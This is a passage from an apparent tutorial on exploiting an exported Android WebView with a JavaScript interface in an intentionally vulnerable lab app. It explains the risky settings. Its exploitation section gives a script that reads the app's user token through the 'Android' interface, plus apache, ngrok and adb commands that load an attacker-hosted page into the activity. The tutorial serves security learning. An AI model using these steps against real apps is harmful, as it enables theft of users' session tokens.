 Developers can enable java script in the webview by adding this configuration

```
webView.getSettings().setJavaScriptEnabled(true);

```

Adding this configuration creates an interface between the webpage’s java script and the client side java code of the application. i.e., the web page’s java script can access and inject java code into the application.

```
webView.addJavascriptInterface(new WebAppInterface(this), "Android");  

```

if this activity is exported, this can be dangerous and allows an attacker to carry out many attacks including XSS and stealing tokens from the application.

Exploitation
============

For Exploitation of this scenario, we cannot make use of the same web View as above since it doesn’t make use of interface. Hence, we will use some other webView which has used the interface.

![](https://miro.medium.com/max/60/1*F_Zu34Wn0KJ299rfgQ90KA.png?q=20)![](https://miro.medium.com/max/875/1*F_Zu34Wn0KJ299rfgQ90KA.png)![](https://miro.medium.com/max/1400/1*F_Zu34Wn0KJ299rfgQ90KA.png)support webview

we can use support webview as you can see that java script has been enabled along with the use of the interface with the name **Android**.

![](https://miro.medium.com/max/60/1*KSSFFseer-fvHFFxuZ8JJw.png?q=20)![](https://miro.medium.com/max/768/1*KSSFFseer-fvHFFxuZ8JJw.png)![](https://miro.medium.com/max/1228/1*KSSFFseer-fvHFFxuZ8JJw.png)interface declaration

```
<script type="text/javascript">
document.write("token: " + Android.getUserToken());
</script>

```

This script writes the token by generating from the getUserToken() Method from the **Android** object which was the name of the interface.

Host this script from the apache server and connect port 80 to ngrok to get https link (http links cannot be used).

```
sudo service apache2 start
./ngrok http 80
and use https ngrok link
adb shell am start -n com.tmh.vulnwebview/.Supportwebview --es support_url "https://8d95c0fe086f.ngrok.io/token.html"

```

![](https://miro.medium.com/max/60/1*zjVtQsWv_nmuwS0xauCbCw.png?q=20)![](https://miro.medium.com/max/875/1*zjVtQsWv_nmuwS0xauCbCw.png)![](https://miro.medium.com/max/1400/1*zjVtQsWv_nmuwS0xauCbCw.png)intent![](https://miro.medium.com/max/60/1*PuhX4XeOChzEQrmDuGPEwg.png?q=20)![](https://miro.medium.com/max/618/1*PuhX4XeOChzEQrmDuGPEwg.png)![](https://miro.medium.com/max/988/1*PuhX4XeOChzEQrmDuGPEwg.png)token stealing

We can show XSS alert just by replacing the document.write line in the above javascript code with your favorite xss payload.
